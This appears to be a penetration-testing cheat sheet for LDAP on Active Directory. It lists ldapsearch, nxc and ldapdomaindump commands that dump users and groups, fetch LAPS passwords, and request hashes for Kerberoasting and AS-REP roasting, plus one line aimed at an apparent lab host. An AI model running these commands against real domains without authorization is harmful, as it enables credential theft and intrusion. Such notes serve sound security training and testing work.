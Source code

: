# (389) LDAP

<details>

<summary>ldapsearch</summary>

```bash
# Get all users
ldapsearch -x -H ldap://<IP> -D '<Domain>\<User>' -w '<Password>' -b 'DC=security,DC=local'

# Get all users and cleanup output
ldapsearch -x -H ldap://<IP> -D '<Domain>\<User>' -w '<Password>' -b 'DC=security,DC=local' | grep userPrincipalName | sed 's/userPrincipalName: //'

# Without credentials
ldapsearch -x -H ldap://<IP> -b 'DC=security,DC=local'
ldapsearch -x -H ldap://<IP> -b 'DC=security,DC=local' | grep userPrincipalName | sed 's/userPrincipalName: //'
```

</details>

<details>

<summary>nxc</summary>

<pre class="language-bash"><code class="lang-bash">nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host> --admin-count
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --asreproast ASREPROAST
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --groups

nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --kerberoasting KERBEROASTING
<strong>nxc ldap dc1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --kerberoasting hash
</strong>
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --password-not-required
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --trusted-for-delegation
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host>  --users

# Modules
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host> -M get-desc-users
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host> -M laps
nxc ldap &#x3C;IP> -u &#x3C;User> -p &#x3C;Password> --kdcHost &#x3C;Host> -M ldap-signing
</code></pre>

</details>

<details>

<summary>ldapdomaindump</summary>

```bash
# With Credentials
ldapdomaindump -u security.local\\<User> -p '<Password>' ldap://<IP>

# Without credentials
ldapdomaindump ldap://<IP>
```

</details>
